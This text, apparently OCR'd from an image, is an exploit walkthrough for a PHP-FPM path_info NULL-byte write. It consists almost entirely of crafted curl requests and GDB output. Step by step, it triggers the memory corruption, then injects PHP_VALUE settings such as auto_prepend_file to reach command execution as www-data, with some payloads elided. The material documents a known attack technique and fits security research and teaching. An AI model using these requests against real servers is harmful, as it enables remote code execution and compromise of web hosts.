+---------------------[ Exploit PHP-FPM Like a Boss!
=> [1] a minified payload to trigger the NULL-byte write!
</PRE>
```console
$ curl http://orange.local/index.php/%0A$(printf %032d)?$(printf %01759d)

[...Switching to GDB]

Breakpoint 1, init_request_info () at ./sapi/fpm/fpm/fpm_main.c:1222
  1222                   path_info[0] = 0;
  1: /x path_info        = 0x55a371abfd60
  2: /x request.env.data = 0x55a371abfd60
```
<PRE>

=> [2] the structure *BEFORE* the write
</PRE>
```console
(gdb) p *request.env.data

  $1 = {
    pos = 0x55a371abf731,
    end = 0x55a371ac06b8,
    next = 0x55a371abe5b0,
    data = ""
  }
```
<PRE>

=> [3] let's write!
</PRE>
```console
(gdb) next

  [...]
```
<PRE>

=> [4] the `pos` *AFTER* the write
</PRE>
```console
(gdb) p *request.env.data.pos

  $2 = 0x55a371abf700
```
<PRE>

=> [5] let's kick off the real payload
</PRE>
```console
$ curl "http://orange.local/index.php/PHP_VALUE%0Aerror_log=/tmp/a;;;;[..]"
$ curl "http://orange.local/index.php/PHP_VALUE%0Ainclude_path=/tmp;;;[..]"
$ curl "http://orange.local/index.php/PHP_VALUE%0Aauto_prepend_file=a;[..]"
  [...]
$ curl "http://orange.local/index.php?a=id"
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<PRE>
